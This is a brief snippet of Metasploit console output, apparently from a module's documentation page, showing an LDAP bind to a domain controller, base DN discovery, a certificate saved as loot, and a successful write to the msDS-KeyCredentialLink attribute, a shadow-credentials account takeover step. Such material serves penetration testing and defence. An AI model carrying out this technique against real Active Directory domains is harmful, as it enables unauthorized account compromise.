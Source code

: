 ```msf
[+] Successfully bound to the LDAP server!
[*] Discovering base DN automatically
[*] 20.92.148.129:389 Getting root DSE
[+] 20.92.148.129:389 Discovered base DN: DC=msf,DC=local
[*] Certificate stored at: /home/user/.msf4/loot/20240404122240_default_20.92.148.129_windows.ad.cs_785877.pfx
[+] Successfully updated the msDS-KeyCredentialLink attribute; certificate with device ID 1107833b-0eb6-0477-a7c6-3590b326851a
[*] Auxiliary module execution completed
```